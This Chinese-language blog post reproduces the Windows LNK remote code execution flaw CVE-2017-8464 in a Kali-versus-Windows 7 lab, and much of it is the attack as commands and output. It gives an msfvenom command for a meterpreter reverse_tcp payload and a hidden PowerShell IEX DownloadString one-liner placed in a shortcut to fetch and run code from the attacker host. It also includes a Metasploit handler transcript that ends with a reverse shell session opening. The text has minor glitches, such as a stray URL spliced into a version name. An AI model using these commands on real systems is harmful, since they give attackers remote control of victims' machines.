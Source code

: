 ```yaml
---
title: CVE-2017-8464 LNK 远程代码执行漏洞
layout: post
tags:
  - sec
  - hack
  - exploit
  - cve
category: 
  - hack
  - sec
comments: true
share: true
---
```

CVE-2017-8464:攻击者可以向用户呈现包含恶意的.LNK文件和相关联的恶意二进制文件的可移动驱动器或远程共享。 当用户在Windows资源管理器或解析.LNK文件的任何其他应用程序中打开此驱动器（或远程共享）时，恶意二进制程序将在目标系统上执行攻击者选择的代码，成功利用此漏洞的攻击者可以获得与本地用户相同的用户权限。

* TOC
{:toc}

<!--more-->

漏洞影响范围: 

- 桌面系统
  - Microsoft Windows 10 Version 1607 for 32-bit Systems
  - Microsoft Windows 10 Version 1607 for x64-based Systems
  - Microsoft Windows 10 for 32-bit Systems
  - Microsoft Windows 10 for x64-based Systems
  - Microsoft Windows 10 version 1511 for 32-bit Systems
  - Microsoft Windows 10 version 1511 for x64-based Systems
  - Microsoft Windows 10 version 1703 for 32-bit Systems
  - Microsoft Windows 10 version 1703 for x64-based Systems
  - Microsoft Windows 7 for 32-bit Systems SP1
  - Microsoft Windows 7 for x64-bhttps://www.baidu.com/ased Systems SP1
  - Microsoft Windows 8.1 for 32-bit Systems
  - Microsoft Windows 8.1 for x64-based Systems
  - Microsoft Windows RT 8.1
- 服务器系统
  - Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
  - Microsoft Windows Server 2008 R2 for x64-based Systems SP1
  - Microsoft Windows Server 2008 for 32-bit Systems SP2
  - Microsoft Windows Server 2008 for Itanium-based Systems SP2
  - Microsoft Windows Server 2008 for x64-based Systems SP2
  - Microsoft Windows Server 2012
  - Microsoft Windows Server 2012 R2
  - Microsoft Windows Server 2016

攻击原理：创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机被攻击
实验平台：攻击机Kali2（192.168.15.129），靶机win7 x64（192.168.15.130）

## 利用msfvenom生成test.ps1

利用msf的msfvenom执行`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.129 LPORT=6666 -f psh-reflection > test.ps1`

![msfvenom.png](/img/hack/利用lnk攻击/msfvenom.png)

## 将test脚本复制到服务器文件夹

复制powershell脚本到`var/www/html`文件夹中，开启服务器功能：

```javascript
root@kali:~# cp test.ps1  /var/www/html
root@kali:~# cd /var/www/html/
root@kali:/var/www/html# ls
index.html  test.ps1
root@kali:/var/www/html# service apache2 start
```





## 创建快捷方式

在靶机上创建快捷方式。
右键打开新建快捷方式，键入`powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.15.129/search.ps1');test.ps1"`,进行下一步。完成快捷方式创建


![创建快捷方式1.png](/img/hack/利用lnk攻击/创建快捷方式1.png)

![创建快捷方式2.png](/img/hack/利用lnk攻击/创建快捷方式2.png)

## 攻击

在kali下创建监听反弹：

```javascript
msf > use exploit/multi/handler 

msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



msf exploit(handler) > set LHOST 192.168.15.129
LHOST => 192.168.15.129

msf exploit(handler) > set LPORT 6666
LPORT => 6666

msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.15.129:6666 
[*] Starting the payload handler...
[*] Sending stage (1189935 bytes) to 192.168.15.130
[*] Meterpreter session 1 opened (192.168.15.129:6666 -> 192.168.15.130:49717) at 2017-06-17 04:19:16 -0400
```

![创建监听.png](/img/hack/利用lnk攻击/创建监听.png)




## 打开快捷方式

打开快捷方式，执行了攻击命令，反弹出靶机的meterpreter

![反弹成功.png](/img/hack/利用lnk攻击/反弹成功.png)


![使用shell.png](/img/hack/利用lnk攻击/使用shell.png)

使用360检测，报毒被查杀
![360报毒.png](/img/hack/利用lnk攻击/360报毒.png)






参考：[1.（亲测复现）Microsoft Windows CVE-2017-8464 LNK 远程代码执行漏洞](http://www.secfree.com/3193.html)http://www.secfree.com/3193.html 